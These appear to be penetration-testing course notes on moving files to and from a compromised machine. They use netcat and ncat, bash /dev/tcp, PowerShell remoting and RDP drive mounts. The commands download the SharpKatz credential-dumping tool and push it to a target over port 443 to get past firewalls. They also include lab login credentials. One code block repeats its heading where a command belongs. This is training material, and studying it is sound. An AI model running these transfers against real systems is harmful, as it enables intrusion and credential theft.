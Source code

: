 
### File Transfer with Netcat and Ncat

The target or attacking machine can be used to initiate the connection, which is helpful if a firewall prevents access to the target

- first start Netcat (nc) on the compromised machine, listening with option -l, selecting the port to listen with the option -p 8000, and redirect the stdout using a single greater-than > followed by the filename, SharpKatz.exe

**NetCat - Compromised Machine - Listening on Port 8000**
```
nc -l -p 8000 > SharpKatz.exe
```

If the compromised machine is using Ncat, we'll need to specify --recv-only to close the connection once the file transfer is finished

**Ncat - Compromised Machine - Listening on Port 8000**
```
ncat -l -p 8000 --recv-only > SharpKatz.exe
```

- From the attack host connect to the target over port 8000 with Netcat and send the file as input to Ncat
- The option -q 0 will tell Netcat to close the connection once it finishes. That way, we'll know when the file transfer was completed

**Netcat - Attack Host - Sending File to Compromised machine**
```
wget -q https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.7_x64/SharpKatz.exe
```
```
nc -q 0 192.168.49.128 8000 < SharpKatz.exe
```

- we can opt for --send-only rather than -q. The --send-only flag, when used in both connect and listen modes, prompts Ncat to terminate once its input is exhausted
- Typically, Ncat would continue running until the network connection is closed, as the remote side may transmit additional data. However, with --send-only, there is no need to anticipate further incoming information

**Ncat - Attack Host - Sending File to Compromised machine**
```
wget -q https://github.com/Flangvik/SharpCollection/raw/master/NetFramework_4.7_x64/SharpKatz.exe
```
```
ncat --send-only 192.168.49.128 8000 < SharpKatz.exe
```

- Instead of listening on our compromised machine, we can connect to a port on our attack host to perform the file transfer operation. 
- This method is useful in scenarios where there's a firewall blocking inbound connections. 
- Let's listen on port 443 on our Pwnbox and send the file SharpKatz.exe as input to Netcat

**Attack Host - Sending File as Input to Netcat**
```
Attack Host - Sending File as Input to Netcat
```

**Compromised Machine Connect to Netcat to Receive the File**
```
nc 192.168.49.128 443 > SharpKatz.exe
```

Perform the same operations with Ncat

**Attack Host - Sending File as Input to Ncat**
```
sudo ncat -l -p 443 --send-only < SharpKatz.exe
```

**Compromised Machine Connect to Ncat to Receive the File**
```
ncat 192.168.49.128 443 --recv-only > SharpKatz.exe
```

- If ncat or netcat aren't available, bash supports read/write operations via /dev/TCP 
- Writing to this particular file makes Bash open a TCP connection to host:port, and this feature may be used for file transfers

**NetCat - Sending File as Input to Netcat**
```
sudo nc -l -p 443 -q 0 < SharpKatz.exe
```

**Ncat - Sending File as Input to Netcat**
```
sudo ncat -l -p 443 --send-only < SharpKatz.exe
```

**Compromised Machine Connecting to Netcat Using /dev/tcp to Receive the File**
```
cat < /dev/tcp/192.168.49.128/443 > SharpKatz.exe
```

### PowerShell Session File Transfer 

- PowerShell Remoting allows us to execute scripts or commands on a remote computer using PowerShell sessions
- Enabling PowerShell remoting creates both an HTTP and an HTTPS listener
- The listeners run on default ports TCP/5985 for HTTP and TCP/5986 for HTTPS

To create a PowerShell Remoting session on a remote computer, we will need administrative access, be a member of the Remote Management Users group, or have explicit permissions for PowerShell Remoting in the session configuration. Let's create an example and transfer a file from DC01 to DATABASE01 and vice versa

**From DC01 - Confirm WinRM port TCP 5985 is Open on DATABASE01.**
```
PS C:\htb> whoami

htb\administrator

PS C:\htb> hostname

DC01
```

```
Test-NetConnection -ComputerName DATABASE01 -Port 5985
```

Because this session already has privileges over DATABASE01, we don't need to specify credentials. In the example below, a session is created to the remote computer named DATABASE01 and stores the results in the variable named $Session

```
$Session = New-PSSession -ComputerName DATABASE01
```

**Copy samplefile.txt from our Localhost to the DATABASE01 Session**
```
Copy-Item -Path C:\samplefile.txt -ToSession $Session -Destination C:\Users\Administrator\Desktop\
```

**Copy DATABASE.txt from DATABASE01 Session to our Localhost**
```
Copy-Item -Path "C:\Users\Administrator\Desktop\DATABASE.txt" -Destination C:\ -FromSession $Session
```


### RDP

Use the Linux tools below to RDP into a machine:
- xfreerdp
- rdesktop
- remmina

As an alternative to copy and paste, we can mount a local resource on the target RDP server. rdesktop or xfreerdp can be used to expose a local folder in the remote RDP session


**Mounting a Linux Folder Using rdesktop**
```
rdesktop 10.129.201.55 -d HTB -u htb-student -p 'HTB_@cademy_stdnt!' -r disk:linux='/home/dan/test'
```

**Mounting a Linux Folder Using xfreerdp**
```
xfreerdp /v:10.129.201.55 /d:HTB /u:htb-student /p:'HTB_@cademy_stdnt!' /drive:linux,/home/dan/test
```





